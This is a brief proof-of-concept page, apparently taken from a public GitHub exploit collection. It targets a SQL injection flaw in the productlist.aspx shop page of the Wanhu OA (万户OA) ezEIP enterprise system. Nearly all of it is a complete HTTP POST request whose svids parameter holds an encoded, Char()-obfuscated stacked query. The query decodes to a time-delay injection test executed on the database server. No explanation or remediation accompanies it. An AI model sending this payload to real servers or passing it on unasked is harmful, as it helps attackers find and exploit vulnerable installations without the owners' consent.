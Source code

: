 # wanhu_productlist_sqli
product： 万户OA
```
POST /shop/productlist.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

ob=price&price=asc&svids=-1%29%3BDECLARE+%40%40proc_name+VARCHAR%28301%29%3BSet+%40%40proc_name%3DChar%28115%29%252bChar%28101%29%252bChar%28108%29%252bChar%28101%29%252bChar%2899%29%252bChar%28116%29%252bChar%2832%29%252bChar%2849%29%252bChar%2832%29%252bChar%28119%29%252bChar%28104%29%252bChar%28101%29%252bChar%28114%29%252bChar%28101%29%252bChar%2832%29%252bChar%2849%29%252bChar%2861%29%252bChar%2849%29%252bChar%2832%29%252bChar%2887%29%252bChar%2865%29%252bChar%2873%29%252bChar%2884%29%252bChar%2870%29%252bChar%2879%29%252bChar%2882%29%252bChar%2832%29%252bChar%2868%29%252bChar%2869%29%252bChar%2876%29%252bChar%2865%29%252bChar%2889%29%252bChar%2832%29%252bChar%2839%29%252bChar%2848%29%252bChar%2858%29%252bChar%2848%29%252bChar%2858%29%252bChar%2853%29%252bChar%2839%29%3BEXECUTE+%28%40%40proc_name%29%3B--a%2B
```
from: https://github.com/wy876/POC/blob/main/%E4%B8%87%E6%88%B7OA/%E4%B8%87%E6%88%B7ezEIP%E4%BC%81%E4%B8%9A%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9Fproductlist.aspx%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
